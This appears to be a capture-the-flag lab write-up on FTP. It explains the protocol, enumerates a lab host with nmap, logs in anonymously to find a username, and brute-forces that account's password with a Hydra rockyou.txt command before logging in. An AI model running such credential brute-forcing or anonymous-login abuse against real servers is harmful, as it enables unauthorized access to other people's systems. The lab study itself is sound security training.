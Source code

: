 **Understanding FTP**  
What is FTP?  
  
File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.  
  
How does FTP work?  
A typical FTP session operates using two channels:  
  
a command (sometimes called the control) channel  
a data channel.  
  
As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.  
  
FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.  
  
While the session is open, the client may execute FTP commands on the server.  
  
Active vs Passive  
  
The FTP server may support either Active or Passive connections, or both.  
  
In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it.  
In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.  
  
This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.  
  
More Details:  
  
You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: https://www.ietf.org/rfc/rfc959.txt. The IETF is one of a number of standards agencies, who define and regulate internet standards.  
  
**Enumerating FTP**  
Enumeration  
  
By now, I don't think I need to explain any further how enumeration is key when attacking network services and protocols. You should, by now, have enough experience with nmap to be able to port scan effectively. If you get stuck using any tool- you can always use "tool [-h / -help / --help]" to find out more about it's function and syntax. Equally, man pages are extremely useful for this purpose. They can be reached using "man [tool]".  
Method  
  
We're going to be exploiting an anonymous FTP login, to see what files we can access- and if they contain any information that might allow us to pop a shell on the system. This is a common pathway in CTF challenges, and mimics a real-life careless implementation of FTP servers.  
  
Resources  
  
As we're going to be logging in to an FTP server, we will need to make sure an FTP client is installed on the system. There should be one installed by default on most Linux operating systems, such as Kali or Parrot OS. You can test if there is one by typing "ftp" into the console. If you're brought to a prompt that says: "ftp>", then you have a working FTP client on your system. If not, it's a simple matter of using "sudo apt install ftp" to install one.  
Alternative Enumeration Methods  
  
It's worth noting that some vulnerable versions of in.ftpd and some other FTP server variants return different responses to the "cwd" command for home directories which exist and those that don’t. This can be exploited because you can issue cwd commands before authentication, and if there's a home directory- there is more than likely a user account to go with it. While this bug is found mainly within legacy systems, it's worth knowing about, as a way to exploit FTP.  
  
This vulnerability is documented at: https://www.exploit-db.com/exploits/20745  
  
$ nmap -vv -sV 10.10.28.126  
-vv high verbosity, -sV version  
discovers port 21 -0 ftp but version vsftpd  
discovers port 80 -http  
  
Now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "ftp [IP]" into the console, and entering "anonymous", and no password when prompted.  
  
ftp 10.10.28.126  
Connected to 10.10.28.126.  
220 Welcome to the administrator FTP service.  
Name (10.10.28.126:kali): anonymous  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
-rw-r--r-- 1 0 0 353 Apr 24 2020 PUBLIC_NOTICE.txt  
ftp> get PUBLIC_NOTICE.txt  
local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt  
200 PORT command successful. Consider using PASV.  
150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).  
226 Transfer complete.  
353 bytes received in 0.00 secs (158.4950 kB/s)  
  
retrieve from directory  
cat PUBLIC_NOTICE.txt  
===================================  
MESSAGE FROM SYSTEM ADMINISTRATORS  
===================================  
  
Hello,  
  
I hope everyone is aware that the  
FTP server will not be available  
over the weekend- we will be  
carrying out routine system  
maintenance. Backups will be  
made to my account so I reccomend  
encrypting any sensitive data.  
  
Cheers,  
  
Mike  
  
**Exploiting FTP**  
  
Hydra  
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.46.241 ftp  
  
Let's break it down:  
SECTION FUNCTION  
hydra Runs the hydra tool  
-t 4 Number of parallel connections per target  
-l [user] Points to the user who's account you're trying to compromise  
-P [path to dictionary] Points to the file containing the list of possible passwords  
-vV Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
[machine IP] The IP address of the target machine  
ftp / protocol Sets the protocol  
  
┌──(kali㉿kali)-[~]  
└─$ ftp 10.10.46.241  
Connected to 10.10.46.241.  
220 Welcome to the administrator FTP service.  
Name (10.10.46.241:kali): mike  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
drwxrwxrwx 2 0 0 4096 Apr 24 2020 ftp  
-rwxrwxrwx 1 0 0 26 Apr 24 2020 ftp.txt  
226 Directory send OK.  
ftp> get ftp.txt  
local: ftp.txt remote: ftp.txt  
200 PORT command successful. Consider using PASV.  
150 Opening BINARY mode data connection for ftp.txt (26 bytes).  
226 Transfer complete.  
26 bytes received in 0.00 secs (32.6778 kB/s)  
ftp> exit  
421 Timeout.  
  
  
[https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef](https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef)  
[https://attack.mitre.org/techniques/T1210/](https://attack.mitre.org/techniques/T1210/)  
[https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)